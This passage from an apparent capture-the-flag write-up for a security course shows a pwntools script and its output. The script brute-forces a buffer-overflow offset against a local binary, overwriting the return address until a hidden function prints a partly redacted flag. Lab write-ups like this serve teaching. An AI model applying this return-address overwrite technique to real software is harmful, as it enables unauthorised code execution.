 ```python
    ret = p.recvall()
    p.close()

    # check if we've found it
    print(ret)
    if b"unreachable" in ret:
        print("Found!")
        break

```

And running the script gave the following output:

```term
$ python3 get.py
32
[+] Starting local process './tired': pid 5952
b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA&\x92\x04\x08'
[+] Receiving all data: Done (5B)
[*] Process './tired' stopped with exit code 0 (pid 5952)
b'BYE!\n'
36
[+] Starting local process './tired': pid 5955
b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA&\x92\x04\x08'
[+] Receiving all data: Done (5B)
[*] Process './tired' stopped with exit code 0 (pid 5955)
b'BYE!\n'
40
[+] Starting local process './tired': pid 5958
b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA&\x92\x04\x08'
[+] Receiving all data: Done (5B)
[*] Process './tired' stopped with exit code 0 (pid 5958)
b'BYE!\n'
44
[+] Starting local process './tired': pid 5961
b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA&\x92\x04\x08'
[+] Receiving all data: Done (5B)
[*] Process './tired' stopped with exit code 0 (pid 5961)
b'BYE!\n'
48
[+] Starting local process './tired': pid 5964
b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA&\x92\x04\x08'
[+] Receiving all data: Done (5B)
[*] Process './tired' stopped with exit code -4 (SIGILL) (pid 5964)
b'BYE!\n'
52
[+] Starting local process './tired': pid 5968
b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA&\x92\x04\x08'
[+] Receiving all data: Done (418B)
[*] Process './tired' stopped with exit code 0 (pid 5968)
b"BYE!\nIf you're seeing this, the code is in what I thought was an unreachable state.\nI could give you advice for what to do. But honestly, why should you trust me?\nI clearly screwed this up. I'm writing a message that should never appear, yet I know it will probably appear someday.\nOn a deep level, I know I'm not up to this task. [of keeping secrets]\nCOMP6841{REDACTED}b1VhrxhLBl6tDEn0Q7SJXFs6uVwASuV4u"
Found!
```
